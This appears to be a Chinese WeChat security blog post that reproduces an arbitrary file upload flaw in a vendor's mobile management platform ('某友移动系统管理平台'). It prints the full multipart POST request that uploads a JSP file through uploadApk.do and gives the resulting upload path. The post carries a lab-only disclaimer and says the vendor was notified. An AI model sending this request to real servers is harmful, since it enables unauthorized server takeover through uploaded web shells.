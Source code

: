 #  某友移动系统管理平台文件上传

原创 背包客  [ Max安全研究院 ](javascript:void\(0\);)

**Max安全研究院** ![]()

微信号 baosec404

功能介绍 分享安全盛宴

____

___发表于_

收录于合集

#技术文章 6 个

#漏洞复现 2 个

# 前言

    本公众号仅用作技术研究，利用此文提及到的知识造成的 **任何直接或者间接的后果及损失** **，** 均由使用者本人负责，本人 **不为此承担任何责任** ， **本文中涉及的漏洞复现，均是自己搭建的本地靶场，禁止非法攻击未授权站点！！！** ****

* * *

# 漏洞描述

    uploadApk.do?pk_obj接口存在任意文件上传漏洞，通过漏洞攻击者可以获取服务器权限。

漏洞复现

发送请求包上传

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /maportal/appmanager/uploadApk.do?pk_obj=0001A1100000000H66QB HTTP/1.1Host: 127.0.0.1:8080Content-Length: 198Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.serverConnection: close  
    ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"Content-Type: application/msword  
    hello------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180426.png)

文件上传后的路径：http://ip/maupload/apk/a.jsp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180427.png)

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！  

备注：漏洞已提交平台，并通知厂商。请不要在网上测试非授权资产！

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

